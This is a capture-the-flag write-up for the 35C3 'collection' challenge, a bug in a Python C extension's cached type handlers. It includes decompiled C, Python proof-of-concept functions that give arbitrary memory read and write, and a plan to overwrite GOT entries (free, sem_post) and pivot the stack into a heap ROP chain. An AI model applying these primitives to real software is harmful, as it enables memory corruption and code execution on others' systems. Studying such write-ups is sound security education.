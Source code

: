 For the 35C3 CTF I solved the challenge 'collection' (pwn/easy)

Although the vulnerability was very easy, it was difficult to find. There were a few reasons for this.

First, it required some knowledge about the Python-C-API
Second, there was another working vulnerability that discouraged me to look for the intended one.

To understand the vulnerability we must know a few structs defined. After reverse engineering the .so file containing the Collection module, I could know who it works.

The main structure used is the Collection structure. 

struct Collection{
	size_t ob_refcnt;
	PyTypeObject* type;
	type_handler* handler;
}

refcnt is a variable used for garbage collection. Although it was irrevelevant to the solution, there was a bug with refcnt.

struct type_handler{
	list* list;
	size_t refcnt;
}

refcnt has no importance, since it doesn't affect control flow.

struct list{
	node* head;
	node* tail;
	int size;
}

The list struct is allocated using malloc(8), so I thought this was a heap overflow vulnerability but it wasn't. Due to heap allignment only the prev_size of the next chunk was overwritten and I couldn't find a way to exploit this.

struct node{
	record* rec;
	node* next;
}

struct record{
	char* name;
	int type;
}

The Collection module provides a Collection() class which is like a container. The __init__ method takes a dictionary whose keys must be all strings and properties must be one of the following: list, dictionary, python int (long).

Each Collection() has a type_handler, which is used to list what types it contains. type_handler has a list where each node contains information (name, type)

Now, the vulnerability lies in the fact that type_handler is cached and can be used by other Collections if the types are equal. What do you mean by types are equal? It is defined in a function called IsListEqual, and a new type handler is generated only if there is no matching cached type handler. When judging if a type_handler can be used for a Collection, the order of the objects do not matter. However when using the get() method to take out objects it matters, because based on what type an object is the extraction method differs. If we can make an object take a type_handler that is different from its types we can cause unexpected behavior to occur.

Below is the PoC. Let's think about how it's supposed to work.

def arbitrary_read(addr,start,end):
	fakestruct = p64(0xff)+p64(0x9ce7e0)+p64(0x200)+p64(0x201)+p64(addr)*2
	structaddr = id(fakestruct) + 0x48
	#print("[*] target: 0x%x"%addr)
	c1 = Collection.Collection({"a":[],"a\x00":structaddr})
	c2 = Collection.Collection({"a":structaddr,"a\x00":[]})#INT->LIST
	x = c2.get("a")#GET ARBITRARY ADDRESS AS AN OBJECT
	return x[start:end]

def arbitrary_write(addr,offset,ch):
	fakestruct = p64(0xff)+p64(0x9ce7e0)+p64(0x200)+p64(0x201)+p64(addr)*2
	structaddr = id(fakestruct) + 0x48
	#print("[*] target: 0x%x"%addr)
	c1 = Collection.Collection({"a":[],"a\x00":structaddr})
	c2 = Collection.Collection({"a":structaddr,"a\x00":[]})#INT->LIST
	x = c2.get("a")#GET ARBITRARY ADDRESS AS AN OBJECT
	x[offset]=ch

using the collection module we could obtain arbitrary RW.

PyObject * Collection__get(PyObject *self, PyObject *args)
{
  char *v4; // rsi
  signed int idx; // eax
  int i; // rcx
  node *nn; // rdx
  record *v8; // rdx
  void *result; // rax
  char *name; // [rsp+0h] [rbp-18h]
  unsigned __int64 v11; // [rsp+8h] [rbp-10h]

  if ( !PyArg_ParseTuple(args, "s", &name) || self->ob_type != &module && !PyType_IsSubtype() )

  {
    return &Py_NoneStruct;
  }

  _name = name;
  idx = listIndexOf(self->type_handler->list, name,recordNameComparator);

  if ( idx == -1 )
    return &Py_NoneStruct;

  cur = self->type_handler->list->head;
  if ( cur && idx > 0 )
  {
    i = 0;
    do
    {
      cur = cur->next;
      i++;
    }
    while ( cur && idx > i );
  }
  rec = (record *)cur->value;
  result = self->elements[idx];
  if ( rec->type == 1 )                          // integer
    result = (PyObject *)PyLong_FromLong(result);
  return result;
}

All PyLong objects are stored in C unsigned long form instead of the pointer to the PyObject struct. If we can get a PyLong entry to have a type other than 1, we can make the get() method return an arbitrary pointer. We can do this by creating a type_handler containing a int entry and a list entry. If we switch the order of them and re-create a Collection object it will use the same type_handler but using get() to take out the list will result in returning the value of the int as a pointer. We can get a full arbitrary RW by using bytearrays. There is a member in the bytearray struct that holds its buffer, and by forging a value for that member we can get arbitrary RW.

Now that we have an arbitrary RW primitive, what can we do?
The flag is located in fd 1023 and we only have readv, mmap, and write to load the contents and show it. However I decided to use readv and write because mmap had special constraints to it via seccomp. We cannot use a one_gadget because execve is forbidden. We need a ROP to call all those functions with carefully set arguments. How to we do ROP when there is no stack overflow? We pivot the stack to the heap.

My plan is to:

(1) Overwrite free_got with a mov rbp,rax;ret gadget -> changes RBP to a heap address
(2) Overwrite sem_post with a leave;ret gadget -> changes RSP to RBP (heap)
(3) Enjoy the ROP

sem_post is called in a Python routine where an object is deleted.
To trigger the free() I manually removed a large bytearray containing the ROP chain (del myarray).

The full exploit is in final.py
